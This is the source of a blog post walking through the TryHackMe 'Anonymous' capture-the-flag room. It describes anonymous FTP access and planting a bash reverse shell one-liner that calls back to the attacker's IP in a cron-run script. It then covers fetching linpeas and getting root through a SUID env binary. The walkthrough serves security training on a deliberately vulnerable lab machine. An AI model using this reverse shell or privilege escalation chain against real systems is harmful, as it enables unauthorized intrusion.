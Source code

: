 ```yaml
---
layout: post
title: THM Anonymous Write-up
excerpt_separator: <!--more-->
---
```

<img src="/img/anon-img/0.header-image.png">
<!--more-->
<a href="https://tryhackme.com/room/anonymous" target="_blank" > Click here to access this box on tryHackMe.com</a>
<p><b>Question 1. Enumerate the machine. How many ports are open?</b></p>
<p><b>Question 2. What service is running on port 21?</b></p>
<p><b>Question 3. What service is running on ports 139 and 445?</b></p>
<p>Let’s start off by  running a basic nmap scan for the top 1000 ports</p>
<p>We have ports 21,22,139 and 445 open. Let enumerate these further. </p>
<img src="/img/anon-img/1.basic_nmap_scan.png">
<p> Now let's check all 65k ports by using the -p- flag just to make sure there aren't anymore open ports. This will take a few minutes. While this is working let’s check out the FTP service on port 21.   
</p>
<img src="/img/anon-img/3.nmap_scan_all_ports.png">
<p>We’re able to login to the FTP service with anonymous:anonymous 
Let’s enumerate the file system.  </p>
<img src="/img/anon-img/4.Ftp_anon_login.png">
<p> There’s a dir named “scripts”  </p>
<img src="/img/anon-img/5.FTP_scrips_dir.png">
<p>There’s four files here. Let’s download these using the get command.  </p>
<img src="/img/anon-img/6.get_ftp_files.png">
<p>We’ll need to review these scripts, but first let’s check on our nmap scan.</p>
<p>Looks like these are the only open ports. Now you can answer question 1,2 and 3.</p>
<img src="/img/anon-img/7.nmap_all_ports_scan_results..png">
<p><b>Questions 4. There's a share on the user's computer.  What's it called?</b></p>
<p>Let’s look at the to_do.txt file we download. Nothing helpful here.Let’s look at the other files. </p>
<img src="/img/anon-img/8.to_do.txt_output.png">
<p> Wow! There’s a bash script that’s probably running on a cron job, the only issue is we don’t know how often it runs. If we’re lucky it runs every few minutes. The good news is we have write  permissions, so It's definitely worth attempting  to gain a shell from it.  </p>
<img src="/img/anon-img/9.clean.sh_output.png">
<p>Let’s make a directory on our local machine name ftp and  mount the FTP  directory  using curlftpfs </p>
<img src="/img/anon-img/10.mkdir-ftp-and-mount.png">
<p>Cd into the FTP directory and open the clean.sh file in a text editor.  </p>
<img src="/img/anon-img/11.cd-gedit-file.png">
<img src="/img/anon-img/12.clean.sh-before-edit.png">
<p>Let’s add this bash shell command (bash -i >& /dev/tcp/your_ip_here/9001 0>&1) to the end of the script like below.  Don’t save  it yet we need to set up a listener to catch this shell on our local machine first.  </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>Set up a netcat listener on our local machine. </p>
<img src="/img/anon-img/14.setup-nc-listener.png">
<p>  Now save this file. </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>And we have a reverse shell. Let’s see if we can find the answer to question 4. </p>
<img src="/img/anon-img/15.rev-shell.png">
<p>Here we have the user.txt file and the directory of the FTP share we mounted. Let’s cat the user.txt  file, answer question 4 and 5. </p>
<img src="/img/anon-img/16.-user.txt.png">
<p>Now let’s start enumerating and try to gain a root shell. 
We can’t write to the passwd or shadow file, but it appears that we’re the only other useful user beside root so no lateral I don’t think we’ll need a lateral movement. Keep enumerating.  </p>
<img src="/img/anon-img/17.passwd-shadow-files.png">
<p>Nothing's standing out. Let’s try running linpeas. On your local host setup a python simple http server to host the linepeas  file.  </p>
<img src="/img/anon-img/18.pythong-simple-server.png">
<p>Back in your shell, if you're not already, navigate to your home folder and issue a wget command to download the linepease file. </p>
<img src="/img/anon-img/19.download-linpease.png">
<p>Make the file  executable  and run it like this ./linpease.sh </p>
<img src="/img/anon-img/20.linpease-running.png">
<p>This is interesting, let's check GTFObins. https://gtfobins.github.io/gtfobins/env/  </p>
<img src="/img/anon-img/21. linpease-env-binary.png">
<img src="/img/anon-img/22.GTFObins-on-the-env-binary.png">
<p> When we execute the env binary we can call /bin/sh but have to add -p to maintain permissions - in this case root and voila, we have root </p>
<img src="/img/anon-img/23.root-shell.png">
<p>Let's grab the root flag. </p>
<img src="/img/anon-img/24.root.txt.png">




